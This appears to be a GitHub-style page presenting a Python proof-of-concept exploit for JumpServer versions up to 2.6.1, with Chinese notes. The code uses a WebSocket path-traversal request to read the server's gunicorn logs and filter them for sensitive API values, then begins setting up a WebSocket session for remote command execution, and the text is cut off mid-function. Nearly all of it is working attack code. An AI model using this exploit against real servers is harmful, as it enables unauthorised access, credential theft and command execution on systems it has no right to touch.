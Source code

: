 > [!NOTE]
>
> POC 里包含两个方法，一个是获取日志文件，另一个是命令执行
>
> 日志提取已经过滤了部分API调用的数据，只需要找到那几个值就好了
>
> 命令执行需要从日志中获取敏感数据并写入脚本对应的变量中 
>
> 接收数据如果卡住请调整 for i in range(7) 这个位置的 7

```python
import requests
import json
import sys
import time
import asyncio
import websockets
import re
from ws4py.client.threadedclient import WebSocketClient

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mPOC_Des: https://www.o2oxy.cn/                                    \033[0m')
    print('+  \033[34mVersion: JumpServer <= v2.6.1                                     \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                            \033[0m')
    print('+  \033[36mCmd         >>> whoami				                            \033[0m')
    print('+------------------------------------------')

class ws_long(WebSocketClient):

    def opened(self):
        req = '{"task":"peiqi/../../../../../logs/gunicorn"}'
        self.send(req)

    def closed(self, code, reason=None):
        print("Closed down:", code, reason)

    def received_message(self, resp):
        resp = json.loads(str(resp))
        # print(resp)
        data = resp['message']
        print(data)
        if "/api/v1/perms/asset-permissions/user/validate/?" in data:
            print(data)


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(re.findall(r'"data":"(.*?)"', recv_text))


async def main_logic(target_url):
    print("\033[32m[o] 正在连接目标: {}\033[0m".format(target_url))
    async with websockets.connect(target_url) as websocket:
        recv_text = await websocket.recv()
```